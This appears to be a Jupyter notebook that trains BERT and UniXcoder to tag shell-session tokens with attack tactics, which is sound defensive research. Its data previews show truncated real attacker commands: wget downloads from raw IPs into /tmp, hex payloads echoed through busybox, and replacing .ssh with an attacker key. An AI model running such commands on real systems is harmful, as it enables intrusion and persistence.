Number of words longer than 30 characters in test data: 146




,Name,Count,Mean,Std,Min,Max,Median
0,BERT,251,126.382470,164.671397,2,918,64.0
1,UniXcoder,251,108.533865,144.621388,2,822,53.0



Average tokens per word (BERT): 3.04
Average tokens per word (UniXcoder): 2.58




In [15]:
from sklearn.linear_model import LinearRegression
X = word_counts.values.reshape(-1, 1)
reg_bert = LinearRegression().fit(X, tok1_len.values)
reg_uni = LinearRegression().fit(X, tok2_len.values)

plt.figure(figsize=(10, 7))
plt.scatter(X, tok1_len, label='Bert', alpha=0.7, edgecolor='black',color='blue')
plt.scatter(X, tok2_len, label='Unixcoder', alpha=0.7, edgecolor='black',color='red')
plt.plot(X, reg_bert.predict(X), color='blue', linewidth=2, label='BERT Regression')
plt.plot(X, reg_uni.predict(X), color='red', linewidth=2, label='UniXcoder Regression')
plt.xlabel("Number of Words", fontsize=18)
plt.ylabel("Number of Tokens", fontsize=18)
plt.title("BERT vs UniXcoder Tokenization (with Linear Regression)", fontsize=16, fontweight='bold')
plt.xticks(fontsize=18)
plt.yticks(fontsize=18)
plt.legend(fontsize=18)
plt.grid(axis='both', linestyle='--')
plt.tight_layout()
plt.show()

In [16]:
bert_truncated = train_data['trunc_bert_tokenized'].apply(lambda x: len(x) > tokenizer.model_max_length).sum()
uni_truncated = train_data['trunc_uni_tokenized'].apply(lambda x: len(x) > tokenizer2.model_max_length).sum()

print("Sessions exceeding max token length after truncation:")
print(f"  BERT:      {bert_truncated}")
print(f"  UniXcoder: {uni_truncated}")

Sessions exceeding max token length after truncation:
  BERT:      6
  UniXcoder: 0


In [17]:
train_data


,session,label,bert_tokenized,uni_tokenized,tr_session,trunc_bert_tokenized,trunc_uni_tokenized
0,rm -rf /var/run/1sh ; wget -c http://71.127.14...,"[Execution, Execution, Execution, Execution, E...","[rm, -, rf, /, var, /, run, /, 1, ##sh, ;, w, ...","[Ġrm, Ġ-, rf, Ġ/, var, /, run, /, 1, sh, Ġ;, Ġ...",rm -rf /var/run/1sh ; wget -c http://71.127.14...,"[rm, -, rf, /, var, /, run, /, 1, ##sh, ;, w, ...","[Ġrm, Ġ-, rf, Ġ/, var, /, run, /, 1, sh, Ġ;, Ġ..."
1,cat /proc/cpuinfo | grep name | wc -l ; echo r...,"[Discovery, Discovery, Discovery, Discovery, D...","[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,...",cat /proc/cpuinfo | grep name | wc -l ; echo r...,"[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,..."
2,cd /tmp || cd /var/run || cd /mnt || cd /root ...,"[Execution, Execution, Execution, Execution, E...","[cd, /, t, ##mp, |, |, cd, /, var, /, run, |, ...","[Ġcd, Ġ/, tmp, Ġ||, Ġcd, Ġ/, var, /, run, Ġ||,...",cd /tmp || cd /var/run || cd /mnt || cd /root ...,"[cd, /, t, ##mp, |, |, cd, /, var, /, run, |, ...","[Ġcd, Ġ/, tmp, Ġ||, Ġcd, Ġ/, var, /, run, Ġ||,..."
3,ls -la /dev/ttyGSM* /var/spool/sms/* /var/log/...,"[Discovery, Discovery, Discovery, Discovery, D...","[l, ##s, -, la, /, dev, /, tt, ##y, ##gs, ##m,...","[Ġls, Ġ-, la, Ġ/, dev, /, tty, G, SM, *, Ġ/, v...",ls -la /dev/ttyGSM* /var/spool/sms/* /var/log/...,"[l, ##s, -, la, /, dev, /, tt, ##y, ##gs, ##m,...","[Ġls, Ġ-, la, Ġ/, dev, /, tty, G, SM, *, Ġ/, v..."
4,cat /var/tmp/.systemcache436621 ; echo 1 > /va...,"[Discovery, Discovery, Discovery, Discovery, D...","[cat, /, var, /, t, ##mp, /, ., system, ##ca, ...","[Ġcat, Ġ/, var, /, tmp, /., system, cache, 43,...",cat /var/tmp/.systemcache436621 ; echo 1 > /va...,"[cat, /, var, /, t, ##mp, /, ., system, ##ca, ...","[Ġcat, Ġ/, var, /, tmp, /., system, cache, 43,..."
...,...,...,...,...,...,...,...
246,wget -O /tmp/linux http://58.218.66.87:8080/li...,"[Not Malicious Yet, Not Malicious Yet, Not Mal...","[w, ##get, -, o, /, t, ##mp, /, linux, http, :...","[Ġw, get, Ġ-, O, Ġ/, tmp, /, linux, Ġhttp, ://...",wget -O /tmp/linux http://58.218.66.87:8080/li...,"[w, ##get, -, o, /, t, ##mp, /, linux, http, :...","[Ġw, get, Ġ-, O, Ġ/, tmp, /, linux, Ġhttp, ://..."
247,enable ; system ; shell ; sh ; cat /proc/mount...,"[Discovery, Discovery, Discovery, Discovery, D...","[enable, ;, system, ;, shell, ;, sh, ;, cat, /...","[Ġenable, Ġ;, Ġsystem, Ġ;, Ġshell, Ġ;, Ġsh, Ġ;...",enable ; system ; shell ; sh ; cat /proc/mount...,"[enable, ;, system, ;, shell, ;, sh, ;, cat, /...","[Ġenable, Ġ;, Ġsystem, Ġ;, Ġshell, Ġ;, Ġsh, Ġ;..."
248,uname -a ; cd /tmp ; wget http://www.studyonaz...,"[Execution, Execution, Execution, Execution, E...","[una, ##me, -, a, ;, cd, /, t, ##mp, ;, w, ##g...","[Ġun, ame, Ġ-, a, Ġ;, Ġcd, Ġ/, tmp, Ġ;, Ġw, ge...",uname -a ; cd /tmp ; wget http://www.studyonaz...,"[una, ##me, -, a, ;, cd, /, t, ##mp, ;, w, ##g...","[Ġun, ame, Ġ-, a, Ġ;, Ġcd, Ġ/, tmp, Ġ;, Ġw, ge..."
249,cat /proc/cpuinfo | grep name | wc -l ; echo r...,"[Discovery, Discovery, Discovery, Discovery, D...","[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,...",cat /proc/cpuinfo | grep name | wc -l ; echo r...,"[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,..."


In [18]:
test_data

,session,label,bert_tokenized,uni_tokenized,tr_session,trunc_bert_tokenized,trunc_uni_tokenized
0,cd /tmp || cd /run || cd / ; wget http://93.11...,"[Execution, Execution, Execution, Execution, E...","[cd, /, t, ##mp, |, |, cd, /, run, |, |, cd, /...","[Ġcd, Ġ/, tmp, Ġ||, Ġcd, Ġ/, run, Ġ||, Ġcd, Ġ/...",cd /tmp || cd /run || cd / ; wget http://93.11...,"[cd, /, t, ##mp, |, |, cd, /, run, |, |, cd, /...","[Ġcd, Ġ/, tmp, Ġ||, Ġcd, Ġ/, run, Ġ||, Ġcd, Ġ/..."
1,cat /proc/cpuinfo | grep name | wc -l ; echo -...,"[Discovery, Discovery, Discovery, Discovery, D...","[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,...",cat /proc/cpuinfo | grep name | wc -l ; echo -...,"[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,..."
2,echo -en \\x00\\x6a\\x60\\x34\\x32\\x37\\x37\\...,"[Not Malicious Yet, Not Malicious Yet, Not Mal...","[echo, -, en, \, \, x, ##00, \, \, x, ##6, ##a...","[Ġecho, Ġ-, en, Ġ\\, x, 00, \\, x, 6, a, \\, x...",echo -en \\x00\\x6a\\x60\\x34\\x32\\x37 ;,"[echo, -, en, \, \, x, ##00, \, \, x, ##6, ##a...","[Ġecho, Ġ-, en, Ġ\\, x, 00, \\, x, 6, a, \\, x..."
3,cat /proc/cpuinfo | grep name | wc -l ; echo 3...,"[Discovery, Discovery, Discovery, Discovery, D...","[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,...",cat /proc/cpuinfo | grep name | wc -l ; echo 3...,"[cat, /, pro, ##c, /, cpu, ##in, ##fo, |, gr, ...","[Ġcat, Ġ/, proc, /, cpuinfo, Ġ|, Ġgrep, Ġname,..."
4,sudo hive-passwd 1hj51gh11g4611234ggg12233g4hg...,"[Persistence, Persistence, Persistence, Persis...","[sud, ##o, hive, -, pass, ##wd, 1, ##h, ##j, #...","[Ġsudo, Ġhive, -, passwd, Ġ1, hj, 51, gh, 11, ...",sudo hive-passwd 1hj51gh11g4611234ggg12233g4hg...,"[sud, ##o, hive, -, pass, ##wd, 1, ##h, ##j, #...","[Ġsudo, Ġhive, -, passwd, Ġ1, hj, 51, gh, 11, ..."
...,...,...,...,...,...,...,...
103,/bin/busybox echo -en '\\x78\\x00\\x00\\x00\\x...,"[Not Malicious Yet, Not Malicious Yet, Not Mal...","[/, bin, /, busy, ##box, echo, -, en, ', \, \,...","[Ġ/, bin, /, busybox, Ġecho, Ġ-, en, Ġ'\\, x, ...",/bin/busybox echo -en '\\x78\\x00\\x00\\x00\\x...,"[/, bin, /, busy, ##box, echo, -, en, ', \, \,...","[Ġ/, bin, /, busybox, Ġecho, Ġ-, en, Ġ'\\, x, ..."
104,cd ~ && rm -rf .ssh && mkdir .ssh && echo ssh-...,"[Persistence, Persistence, Persistence, Persis...","[cd, ~, &, &, rm, -, rf, ., ss, ##h, &, &, mk,...","[Ġcd, Ġ~, Ġ&&, Ġrm, Ġ-, rf, Ġ., ssh, Ġ&&, Ġmkd...",cd ~ && rm -rf .ssh && mkdir .ssh && echo ssh-...,"[cd, ~, &, &, rm, -, rf, ., ss, ##h, &, &, mk,...","[Ġcd, Ġ~, Ġ&&, Ġrm, Ġ-, rf, Ġ., ssh, Ġ&&, Ġmkd..."
105,LC_ALL=C cat /etc/rc.local /etc/rc.d/rc.local ...,"[Discovery, Discovery, Discovery, Discovery, D...","[lc, _, all, =, c, cat, /, etc, /, rc, ., loca...","[ĠLC, _, ALL, =, C, Ġcat, Ġ/, etc, /, rc, ., l...",LC_ALL=C cat /etc/rc.local /etc/rc.d/rc.local ...,"[lc, _, all, =, c, cat, /, etc, /, rc, ., loca...","[ĠLC, _, ALL, =, C, Ġcat, Ġ/, etc, /, rc, ., l..."
106,scp -t /tmp/INp6QaaO ; cd /tmp && chmod +x INp...,"[Execution, Execution, Execution, Execution, E...","[sc, ##p, -, t, /, t, ##mp, /, in, ##p, ##6, #...","[Ġscp, Ġ-, t, Ġ/, tmp, /, IN, p, 6, Q, aa, O, ...",scp -t /tmp/INp6QaaO ; cd /tmp && chmod +x INp...,"[sc, ##p, -, t, /, t, ##mp, /, in, ##p, ##6, #...","[Ġscp, Ġ-, t, Ġ/, tmp, /, IN, p, 6, Q, aa, O, ..."


In [19]:
# Tokenize the dataset for model1 (BERT Tokenizer)
from datasets import Dataset, DatasetDict
from sklearn.model_selection import train_test_split
train_df, val_df = train_test_split(train_data, test_size=0.2, random_state=44)
print(f"Train df shape: {train_df.shape}, Val df shape: {val_df.shape}, Test df shape: {test_data.shape}")

full_ds = DatasetDict(
    {
        "train": Dataset.from_pandas(train_df.reset_index(drop=True)),
        "valid": Dataset.from_pandas(val_df.reset_index(drop=True)),
        "test": Dataset.from_pandas(test_data.reset_index(drop=True)),
    }
)


Train df shape: (200, 7), Val df shape: (51, 7), Test df shape: (108, 7)


In [20]:
def convert_labels_to_ids(sample):
    sample['label_id'] = [label2id[el] for el in sample["label"]]
    return sample

unique_labels = list(train_df.label.explode().unique())
id2label = {it:label for it, label in enumerate(unique_labels)}
label2id = {label:it for it, label in enumerate(unique_labels)}
print(label2id)


# Apply the mapping function to all splits of your dataset
encoded_dataset = full_ds.map(convert_labels_to_ids)

print("Example:")
EXAMPLE_ID = 0
print(f'Original tags: {encoded_dataset["valid"][EXAMPLE_ID]["label"]}')
print(f'Converted tags: {encoded_dataset["valid"][EXAMPLE_ID]["label_id"]}')




{'Execution': 0, 'Discovery': 1, 'Persistence': 2, 'Not Malicious Yet': 3, 'Defense Evasion': 4, 'Impact': 5, 'Other': 6}


Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

Example:
Original tags: ['Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasion', 'Defense Evasio

In [21]:
def align_labels_with_tokens(labels, word_ids):
    """Aligns token-level labels with word-level labels for tokenized text.

    This function maps word-level labels to their corresponding tokens after tokenization.
    It handles special tokens (with None word_ids) and subword tokens (multiple tokens for one word).
    Args:
       labels (list): Original word-level labels.
       word_ids (list): List of word indices that each token corresponds to.
                        None values represent special tokens.
    Returns:
       list: New token-aligned labels where:
            - Special tokens (None word_ids) are assigned -100
            - First token of each word gets the word's label
            - Continuation tokens of the same word also get the word's label
    Example:
       labels = [0, 1, 2]  # Labels for 3 words
       word_ids = [None, 0, 0, 1, 2, 2, None]  # Tokenized into 7 tokens
       result = [-100, 0, 0, 1, 2, 2, -100]  # Aligned labels
    """
    new_labels = []
    current_word = None
    for word_id in word_ids:
        if word_id != current_word:
            # Start of a new word or special token
            current_word = word_id
            # Use -100 for special tokens, otherwise use the original label
            if word_id is None:
                label = -100
            else:
                label = labels[word_id]
            new_labels.append(label)
        elif word_id is None:
            # Special token (like [CLS], [SEP], etc.)
            new_labels.append(-100)
        else:
            label = labels[word_id]
            new_labels.append(label)
    return new_labels

def tokenize_and_align_labels(samples):
    """Tokenizes text examples and aligns their labels with the resulting tokens.
    This function processes a batch of examples by:
    1. Tokenizing the text in 'sentences' field
    2. Converting word-level labels to token-level labels for each example
    3. Adding the aligned labels back to the tokenized inputs
    Args:
       examples (dict): Dictionary containing:
           - 'sentences': List of text sentences
           - 'labels_id': List of lists containing word-level tags for each command
    Returns:
       dict: Tokenized inputs with aligned labels:
           - Standard tokenizer outputs (input_ids, attention_mask, etc.)
           - 'labels': Token-level labels aligned with the tokenized inputs
    Notes:
       - Uses a pre-defined tokenizer (must be available in scope)
       - Sets is_split_into_words=True because input is already word-tokenized
       - Uses align_labels_with_tokens helper function to handle subword tokenization
    """
    # Remember: we need to split the sentences
    split_sentences = [sentence.split(" ") for sentence in samples['tr_session']]
    # Tokenize all examples in batch using the global tokenizer
    tokenized_inputs = tokenizer(
        split_sentences,
        truncation=True,  # Truncate to max length if needed
        is_split_into_words=True # Input is already split into words
    )
    # Extract all tags_id lists from the examples
    all_tags = samples['label_id']
    new_labels = []
    # Process each example's labels individually
    for i, tags in enumerate(all_tags):
        # Get word ID mapping for the current example
        word_ids = tokenized_inputs.word_ids(i)
        # Convert word-level tags to token-level tags
        aligned_labels = align_labels_with_tokens(tags, word_ids)
        new_labels.append(aligned_labels)
    # Add the aligned labels to the tokenized inputs
    tokenized_inputs["labels"] = new_labels
    return tokenized_inputs




In [22]:
truncated_tokenized_sentences = tokenizer(list(full_ds['train']["session"]), truncation=True)
n_truncated_tokens = [len(el) for el in truncated_tokenized_sentences["input_ids"]]
n_tokens_x_sentence = [len(el) for el in train_df["session"]]
# print(len(truncated_tokenized_sentences["input_ids"]))
# print(len(n_truncated_tokens))
# print(len(n_tokens_x_sentence))
# print(len(train_df["session"]))
# print(len(full_ds['train']["session"]))

fig, ax = plt.subplots(1, figsize=(5, 3))
ax.scatter(n_tokens_x_sentence, n_truncated_tokens, s=50,
           color="forestgreen", edgecolor="k", linewidth=1)
ax.axhline(512, c="firebrick", label = f"Context size model")
ax.grid(True, linestyle='--', alpha=0.7)
ax.set_xlabel('|Original Tokens|', fontsize=12)
ax.set_ylabel('|Truncated Tokens|', fontsize=12)
ax.legend()
fig.suptitle('Original vs Truncated |Tokens|', fontsize=14)
plt.show()

In [23]:
original_columns = encoded_dataset["train"].column_names
print(f"Original columns: {original_columns}")
tokenized_datasets = encoded_dataset.map(
    tokenize_and_align_labels,
    batched=True, # Can be performed in batches, in order to speed up times!
    remove_columns=original_columns,# To remove the original columns
)


Original columns: ['session', 'label', 'bert_tokenized', 'uni_tokenized', 'tr_session', 'trunc_bert_tokenized', 'trunc_uni_tokenized', 'label_id']


Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

In [24]:
from transformers import DataCollatorForTokenClassification
data_collator = DataCollatorForTokenClassification(tokenizer=tokenizer)

In [25]:
from torch.utils.data import DataLoader

train_dataloader = DataLoader(
    tokenized_datasets["train"],
    shuffle=True,
    collate_fn=data_collator,
    batch_size=16
)
eval_dataloader = DataLoader(
    tokenized_datasets["valid"], collate_fn=data_collator, batch_size=16
)
test_dataloader = DataLoader(
    tokenized_datasets["test"], collate_fn=data_collator, batch_size=16
)

# Task 3: train


## Bert pretrained

In [26]:
from transformers import AutoModelForTokenClassification, AutoConfig
from torch.optim import AdamW

pretrained_model = "google-bert/bert-base-uncased"
model = AutoModelForTokenClassification.from_pretrained(
    pretrained_model_name_or_path=pretrained_model,
    id2label=id2label,
    label2id=label2id,
)

# Notice: model has already been pre-trained.
# We DO NOT WANT to ruin it! Just a "gentle touch" > keep your LR small!
LR = 1e-5
N_TRAIN_EPOCHS = 50
# Define optimizer
optimizer = AdamW(model.parameters(), lr=LR)

model.safetensors:   0%|          | 0.00/440M [00:00<?, ?B/s]

Some weights of BertForTokenClassification were not initialized from the model checkpoint at google-bert/bert-base-uncased and are newly initialized: ['classifier.bias', 'classifier.weight']
You should probably TRAIN this model on a down-stream task to be able to use it for predictions and inference.


In [27]:
from transformers import get_scheduler
# Usually Transformers architectures are trained with a linear scheduler
# This means that the LR is linearly scaled down at every training step

num_update_steps_per_epoch = len(train_dataloader)
# Total number of training steps: number_batches_x_epoch x number of epochs!
num_training_steps = N_TRAIN_EPOCHS * num_update_steps_per_epoch

lr_scheduler = get_scheduler(
    "linear",
    optimizer=optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)

In [28]:

from sklearn.metrics import f1_score, precision_score, recall_score, accuracy_score
from itertools import chain
import numpy as np
import matplotlib.pyplot as plt
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.metrics import confusion_matrix, classification_report

def plot_stats(title, training_losses, validation_losses=None, best_epoch=None):
    # Set style for better-looking plots
    plt.style.use('seaborn-v0_8-paper')
    # Define a common color scheme
    colors = {
        'training': '#2E86C1',    # Deep blue
        'validation': '#27AE60',
        'best_epoch': '#E74C3C',  # Red
    }
    if validation_losses is not None:
        # Create a figure with 2 subplots
        fig, ((ax1, ax2)) = plt.subplots(1, 2, figsize=(8,8))
    else:
        fig, ax1 = plt.subplots(1, figsize=(8,8))

    # Plot data with enhanced styling
    ax1.plot(training_losses, color=colors['training'], linewidth=2)
    ax1.set_title('Training Loss', fontsize=12, pad=10)
    ax1.set_ylabel('Loss', fontsize=10)
    ax1.set_xlabel('Training Steps', fontsize=10)

    if validation_losses is not None:
        ax1.axvline(x=best_epoch, color=colors['best_epoch'], linestyle='--', alpha=0.8, label='Best Epoch')
        ax2.plot(validation_losses, color=colors['validation'], linewidth=2)
        ax2.axvline(x=best_epoch, color=colors['best_epoch'], linestyle='--', alpha=0.8, label='Best Epoch')
        ax2.set_title('Validation Loss', fontsize=12, pad=10)
        ax2.set_ylabel('Loss', fontsize=10)
        ax2.set_xlabel('Training Steps', fontsize=10)
        axs = [ax1, ax2]
    else:
        axs = [ax1]
    # Add grid to all subplots with better styling
    for ax in axs:
        ax.grid(True, linestyle='--', alpha=0.7)
        ax.spines['top'].set_visible(False)
        ax.spines['right'].set_visible(False)
        if len(axs)>1:
            ax.legend(fontsize=8)
    # Add a main title
    fig.suptitle(f'{title} - Training Losses', fontsize=14, y=1.02)
    # Adjust the layout
    plt.tight_layout()
    # Display the plot
    plt.show()
def postprocess(predictions, labels):
    """
    Post-processes model predictions and ground-truth labels for evaluation.

    This function detaches predictions and labels from any computation graph,
    moves them to CPU, clones, and converts them to NumPy arrays. It then
    maps token IDs to their corresponding label names, ignoring special
    tokens indicated by the index `-100`.

    Args:
        predictions (torch.Tensor): Model output predictions (logits or token IDs).
        labels (torch.Tensor): Ground-truth labels corresponding to the inputs.

    Returns:
        Tuple[List[List[str]], List[List[str]]]:
            A tuple containing two lists:
            - `true_labels`: The list of true label sequences with special tokens removed.
            - `true_predictions`: The list of predicted label sequences, aligned with the true labels.
    """
    predictions = predictions.detach().cpu().clone().numpy()
    labels = labels.detach().cpu().clone().numpy()
    # Remove ignored index (special tokens) and convert to labels
    true_labels = [[id2label[l] for l in label if l != -100] for label in labels]
    true_predictions = [
        [id2label[p] for (p, l) in zip(prediction, label) if l != -100]
        for prediction, label in zip(predictions, labels)
    ]
    return true_labels, true_predictions

def calculate_fidelity(predictions, labels):
    """
    Calculate the average fidelity score for a set of predictions and labels.

    Args:
        predictions (list): List of predicted labels for each session.
        labels (list): List of true labels for each session.

    Returns:
        float: Average fidelity score across all sessions.
    """
    total_fidelity = 0
    num_sessions = len(predictions)

    for pred, label in zip(predictions, labels):
        correct_predictions = sum(p == l for p, l in zip(pred, label))
        total_fidelity += correct_predictions / len(label) if label else 0

    return total_fidelity / num_sessions if num_sessions > 0 else 0

def compute_metrics(full_predictions, full_labels):
    """
    Calculate both token-level and sentence-level metrics for token classification.
    Args:
        full_predictions: List of lists of predicted labels
        full_labels: List of lists of true labels
    Returns:
        dict: Dictionary containing calculated metrics
    """
    # Token-level metrics
    # Flatten predictions and labels > create a single, long list
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))
    # Calculate standard classification metrics
    token_accuracy = accuracy_score(flat_labels, flat_predictions)
    token_precision = precision_score(flat_labels, flat_predictions, average='macro', zero_division=0)
    token_recall = recall_score(flat_labels, flat_predictions, average='macro', zero_division=0)
    token_f1 = f1_score(flat_labels, flat_predictions, average='macro', zero_division=0)
    token_fidelity = calculate_fidelity(flat_labels, flat_predictions)
    # Return all metrics in a dictionary
    metrics = {
        "token_accuracy": token_accuracy,
        "token_precision": token_precision,
        "token_recall": token_recall,
        "token_f1": token_f1,
        "token_fidelity": token_fidelity
    }
    return metrics
def plot_per_class_f1(full_predictions, full_labels, id2label):
    """
    Plots a barplot of per-class F1-scores.

    Args:
        full_predictions (list of list): Predicted labels.
        full_labels (list of list): True labels.
        id2label (dict): Mapping from label ids to label names.
    """

    # Flatten predictions and labels
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))

    # Compute per-class F1 scores
    labels_list = list(id2label.values())
    f1_per_class = f1_score(flat_labels, flat_predictions, labels=labels_list, average=None, zero_division=0)

    # Barplot
    plt.figure(figsize=(8, 5))
    sns.barplot(x=labels_list, y=f1_per_class,palette="Set2",hue=f1_per_class,legend=False)
    # Add the exact number on top of each bar
    for i, v in enumerate(f1_per_class):
        plt.text(i, v + 0.01, f"{v:.2f}", ha='center', va='bottom', fontsize=10)
    plt.ylabel("F1-score")
    plt.xlabel("Class")
    plt.title("Per-class F1-score")
    plt.ylim(0, 1)
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()
    plt.show()
    return f1_per_class

def compute_confusion_matrix(full_predictions, full_labels, normalize=False):
    """
    Plot the confusion matrix.

    Args:
        full_predictions (List[List[str]]): List of lists of predicted labels.
        full_labels (List[List[str]]): List of lists of true labels.
        normalize (bool, optional): Whether to normalize the confusion matrix.
            If True, each value will represent the proportion over the true labels.
            Defaults to False.

    Returns:
        np.ndarray: Confusion matrix where rows represent true labels and columns represent predicted labels.
    """
    # Token-level metrics
    # Flatten predictions and labels into a single list
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))
    # Compute the confusion matrix
    cm = confusion_matrix(flat_labels, flat_predictions, labels=list(id2label.values()))
    if normalize:
        cm = cm.astype('float')
        row_sums = cm.sum(axis=1, keepdims=True)
        # Avoid division by zero: set zero rows to 1 to prevent NaN
        row_sums[row_sums == 0] = 1
        cm = cm / row_sums
        fmt = '.2f'
    else:
        fmt = 'd'
    # Plot confusion matrix
    plt.figure(figsize=(8, 6))
    sns.heatmap(cm, annot=True, fmt=fmt, cmap='Blues',
                xticklabels=list(id2label.values()),
                yticklabels=list(id2label.values()))
    plt.ylabel('True label')
    plt.xlabel('Predicted label')
    plt.title('Normalized Confusion Matrix' if normalize else 'Confusion Matrix')
    plt.xticks(rotation=45, ha='right')
    plt.yticks(rotation=0)
    plt.tight_layout()
    plt.show()
    return cm
from copy import deepcopy
# Best model initialization
best_val_loss, best_epoch = np.inf, 0
best_model = {"model": deepcopy(model), "val_loss": np.inf, "name": model_name}
best_model_local = deepcopy(model)
results = {}
f1_results = {}

In [29]:


progress_bar = tqdm(range(num_training_steps))
val_losses, train_losses = [], [] # Lists to keep track of the training and validation losses
model.to(device) # Move the model to the GPU
for epoch in range(N_TRAIN_EPOCHS):
    # Training
    model.train()
    train_loss = 0
    for batch in train_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        # Model expects:
        # - input_ids > i.e., which tokens we must map into the embeddings
        # - attention_mask > who shall each token pays attention to
        # - labels > the NER tags
        outputs = model(input_ids=batch["input_ids"],
                        attention_mask=batch["attention_mask"],
                        labels=batch["labels"]
        )
        # Notice: the model already comes with a CrossEntropy loss
        # - if `labels` are defined, a loss is also computed
        loss = outputs.loss
        train_loss += loss.detach().cpu().clone().numpy()
        loss.backward()
        optimizer.step()
        lr_scheduler.step()
        optimizer.zero_grad()
        progress_bar.update(1)
    train_losses.append(train_loss/len(train_dataloader))
    # Evaluation
    model.eval()
    full_predictions, full_labels = [], []
    val_loss = 0
    for batch in eval_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        val_loss += outputs.loss.detach().cpu().clone().numpy()
        # Extract the predictions
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels)
        full_predictions+=true_predictions
        full_labels+=true_labels
    val_loss = val_loss/len(eval_dataloader)
    val_losses.append(val_loss)
    metrics = compute_metrics(full_predictions, full_labels)
    print(
        f"epoch {epoch}:",
        {
            key: metrics[key]
            for key in ["token_accuracy", "token_f1"]
        },
    )
    if val_loss <= best_val_loss:
        best_epoch = epoch
        best_val_loss = val_loss
        best_model_local = deepcopy(model)

  0%|          | 0/650 [00:00<?, ?it/s]

epoch 0: {'token_accuracy': 0.5861698865378718, 'token_f1': 0.17744472152990884}
epoch 1: {'token_accuracy': 0.6675866298681387, 'token_f1': 0.2705932712524877}
epoch 2: {'token_accuracy': 0.6956455075130328, 'token_f1': 0.2937947092527093}
epoch 3: {'token_accuracy': 0.7316773995706838, 'token_f1': 0.3161555709923329}
